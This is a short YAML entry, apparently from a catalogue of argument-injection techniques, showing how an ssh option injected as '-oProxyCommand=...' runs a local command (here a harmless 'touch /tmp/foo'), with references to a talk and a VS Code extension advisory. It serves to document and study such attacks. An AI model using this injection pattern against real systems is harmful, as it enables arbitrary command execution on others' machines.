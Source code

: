 ```yaml
---
functions:
  command:
    - code: ssh '-oProxyCommand="touch /tmp/foo"' foo@foo
      references:
        - title: Joern Schneeweisz's talk "Argument Injection"
          url: https://docs.google.com/presentation/d/1U8r5CJs9dLOLO2-hj_bHidRMXugUl3ejv8Hdw6bDMv4/edit#slide=id.g6ea990965c_0_15
        - title: Remote Command Execution in Visual Studio Code Remote Development Extension
          url: https://www.shielder.com/it/advisories/remote-command-execution-in-visual-studio-code-remote-development-extension/
---
```

